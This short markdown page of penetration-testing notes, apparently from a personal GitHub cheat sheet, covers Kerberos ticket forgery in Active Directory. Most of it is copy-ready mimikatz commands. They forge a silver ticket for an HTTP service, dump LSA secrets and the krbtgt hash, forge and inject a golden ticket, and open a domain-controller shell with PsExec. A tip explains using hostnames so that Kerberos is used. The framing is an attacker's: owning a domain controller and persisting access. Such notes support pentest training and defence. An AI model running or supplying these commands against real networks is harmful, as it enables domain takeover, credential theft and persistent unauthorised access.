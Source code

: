## Ticket Forgery

### Silver Ticket Forgery

If attempting to forge a silver ticket to hit a website, from within `mimikatz.exe`:
```
kerberos::golden /sid:<current user SID> /domain:<FQDN> /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### Golden Ticket Forgery

If we have managed to own a domain controller, or a domain admin account, and we'd like to persist our access, then an ideal approach for us is to forge a so-called Golden Ticket. From `mimikatz.exe`:
```
privilege::debug
lsadump::lsa /patch
kerberos::purge
kerberos::golden /user:Administrator /domain:corp.com /sid:<Domain SID> /krbtgt:<krbtgt NTLM hash> /target:<target DC> /ptt
misc::cmd
```
```powershell
PsExec.exe \\domainController cmd.exe
```
Nb. for the command above it is important to note that this is just Overpass The Hash on steroids, and that its important for us to leverage the hostname rather than the IP address. This is because if we use the hostname we leverage Kerberos as the auth mechanism, which we have just owned courtesy of our Golden Ticket. However if we use an IP then we fall back to NTLM auth, within which we have no special privilege.